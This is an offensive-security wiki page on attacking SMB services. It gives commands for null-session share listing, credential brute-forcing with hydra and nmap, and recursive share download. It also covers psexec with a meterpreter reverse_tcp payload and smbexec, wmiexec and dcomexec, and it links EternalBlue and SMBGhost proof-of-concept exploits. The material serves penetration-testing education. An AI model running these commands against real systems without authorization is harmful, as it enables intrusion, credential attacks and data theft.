 # 🛠️ SMB

## Theory

SMB (Server Message Block) is a protocol running on port 445/tcp. It is used to share access to files, printers and serial ports on a network

In 1996 Microsoft releases a customized SMB they call CIFS (Common Internet File System). CIFS can sometimes be referred to as SMB1 (or SMBv1, SMB 1.0). In 2006, Microsoft introduced SMB2 (also referred to as SMB 2.0), a new version of the CIFS protocol. In 2012, Microsoft released SMB3 (a.k.a. SMB 3.0). As of 2020, most systems use SMB 2.0 or above.

In short, SMB is the protocol, CIFS is an old dialect of SMB, and Samba is the Linux/UNIX-like implementation of the SMB protocol (see [this](http://thewindowsupdate.com/2020/02/21/smb-and-null-sessions-why-your-pen-test-is-probably-wrong/)).

## Practice

### Null session

The null session, if not disabled, allows for anonymous/guest access to a network resource when using no credentials

{% tabs %}
{% tab title="UNIX-like" %}
Tools like [smbclient](https://www.samba.org/samba/docs/current/man-html/smbclient.1.html) (C) and [smbmap](https://github.com/ShawnDEvans/smbmap) (Python) can be used to access SMB shares with null sessions. Null credentials do not have to be explicitly set in this case.

```bash
# List shares
smbclient --list //$IP
smbmap -H $IP

# List shares (implicit null creds)
smbclient --no-pass --list //$IP

# List shares (explicit null creds)
smbclient --user ''%'' --list //$IP
smbmap -u '' -p '' -H $IP

# Open an interactive session to operate on a specific share
smbclient //$IP/$SHARE_NAME
```

[CrackMapExec](https://github.com/mpgn/CrackMapExec) (Python) can be used to test for null session on multiple hosts.

```bash
crackmapexec smb $TARGETS -u '' -p '' --shares
```
{% endtab %}

{% tab title="Windows" %}
The `net` cmdlet can be used to natively interact with SMB shares and explicitly set null credentials.

{% hint style="warning" %}
If null credentials are not explicitly set, Windows will natively use implicit credentials (e.g. Kerberos tickets in cache, logged on user creds or computer account)
{% endhint %}

```bash
net use \\$IP\$SHARE_NAME '' /user:''
```
{% endtab %}
{% endtabs %}

### Bruteforce

Tools like [hydra](https://github.com/vanhauser-thc/thc-hydra), [metasploit](https://github.com/rapid7/metasploit-framework) or [nmap](https://github.com/nmap/nmap) can be used to operate authentication bruteforce attacks.

{% hint style="danger" %}
In addition to not being stealthy at all, and depending on the password policy rules in place, bruteforcing authentication could lead to accounts getting locked out when reaching maximum allowed tries.
{% endhint %}

```bash
# hydra
hydra -L usernames.txt -P passwords.txt $IP -V -f smb

# Metasploit module to use
msf5 > use auxiliary/scanner/smb/smb_login

# nmap
nmap --script smb-brute -p 445 $IP
```

Valid credentials can then be used to list accessible shares and enumerate the contents of the shares the account has access to.

### Data exfiltration

Tools like [smbclient](https://www.samba.org/samba/docs/current/man-html/smbclient.1.html) and [CrackMapExec](https://github.com/mpgn/CrackMapExec) can be used to recursively download a SMB share's content.

```bash
# In an smbclient interactive session
recurse ON
prompt OFF
mget *

# With crackmapexec
crackmapexec smb $TARGETS -u $USERNAME -p $PASSWORD -M spider_plus -o READ_ONLY=False
```

### 🛠️ Authenticated RCE

{% tabs %}
{% tab title="undefined" %}

{% endtab %}
{% endtabs %}

PSExec exploit module runs on the same principle as the PSExec Windows utility. The exploit embeds a payload into an executable, upload it into the Admin$ share. It then calls the Service Control Manager to approximately start a new rundll32.exe process that will execute our malicious executable.

```
msf > use exploit/windows/smb/psexec
msf exploit(psexec) > set payload windows/meterpreter/reverse_tcp
msf exploit(psexec) > show options
Module options:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOST    192.168.57.131   yes       The target address
   RPORT    445              yes       Set the SMB service port
   SMBPass                   no        The password for the specified username
   SMBUser  Administrator    yes       The username to authenticate as
```

{% hint style="warning" %}
Privileged user credentials required.
{% endhint %}

{% hint style="warning" %}
File uploading, creating, starting, stopping, deletion of services makes it really noisy.
{% endhint %}

**Smbexec** works like **Psexec**, but instead of trying to execute an uploaded executable inside the share, it will try to use directly the binaries _cmd.exe/powershell.exe_. The exploit create an arbitrary service with the _Service File Name_ attribute set to a command string to execute. It echoes the command to be executed to a .bat file, execute it and delete it.

The exploit then get the output of the command via Smb and displays the content. For every command, a new service is created.

{% embed url="https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py" %}
Exploit
{% endembed %}

{% hint style="info" %}
**%COMSPEC%** is the environment variable that generaly points to the command line interpreter. (_cmd.exe, powershell.exe_...)
{% endhint %}

{% hint style="info" %}
The purpose of using **/Q** option of cmd is to stop displaying output. (je crois que ça veut dire /quiet à vérifier)
{% endhint %}

{% hint style="warning" %}
Prioritize using **Smbexec** when you detect a strong AV, `cmd.exe`is a trusted component of the operating system.
{% endhint %}

{% hint style="warning" %}
Privileged user credentials required.
{% endhint %}

Windows Management Instrumentation is a subsystem of PowerShell that gives high privileged access to system monitoring tools.

Wmiexec has a similar approach to smbexec but it is executing commands through WMI.

{% embed url="https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py" %}
Exploit
{% endembed %}

DCOM is a way for a computer to run a program over the network on a different computer as if the program was running locally.

Dcomexec has a similar approach to psexec but it is executing commands through DCOM.

{% embed url="https://github.com/SecureAuthCorp/impacket/blob/master/examples/dcomexec.py" %}
Exploit
{% endembed %}

Crackmapexec is a swiss army that has featured a lot of the command execution methods mentionned precedently.

One of its feature is to automate the process of executing code via SMB by switching between methods when one fails.

{% embed url="https://github.com/mpgn/CrackMapExec" %}

### 🛠️ Unauthenticated RCE

{% tabs %}
{% tab title="undefined" %}

{% endtab %}
{% endtabs %}

Eternalblue is a flaw that allows remote attackers to execute arbitrary code on a target system by sending specially crafted messages to the **SMBv1** server. Other related exploits were labelled as`Eternalchampion`, `Eternalromance` and `Eternalsynergy.`

{% embed url="https://github.com/worawit/MS17-010" %}
POC
{% endembed %}

Smbghost is a bug occuring in the decompression mechanism of client message to a **SMBv3.11** server. This bug leads remotely and without any authentication to a **BSOD or an RCE** on the target.

{% embed url="https://blog.zecops.com/vulnerabilities/exploiting-smbghost-cve-2020-0796-for-a-local-privilege-escalation-writeup-and-poc/" %}
Walktrough
{% endembed %}

{% embed url="https://github.com/ZecOps/CVE-2020-0796-RCE-POC" %}
POC
{% endembed %}

Smbleed allows to **leak kernel** memory remotely, it is also occuring in the same decompression mechanism as smbghost.

In order for the target to be vulnerable, it must have the **SMBv3.1.1** implementation running and the compression function enabled, which is on by **default**.

{% embed url="https://blog.zecops.com/vulnerabilities/smbleedingghost-writeup-chaining-smbleed-cve-2020-1206-with-smbghost/" %}
Walktrough
{% endembed %}

{% embed url="https://github.com/ZecOps/CVE-2020-1206-POC" %}
POC
{% endembed %}

## References

{% embed url="https://pandorafms.com/blog/what-is-wmi/" %}

{% embed url="https://book.hacktricks.xyz/pentesting/pentesting-smb" %}

{% embed url="https://www.varonis.com/blog/dcom-distributed-component-object-model/" %}

{% embed url="https://www.optiv.com/blog/owning-computers-without-shell-access" %}
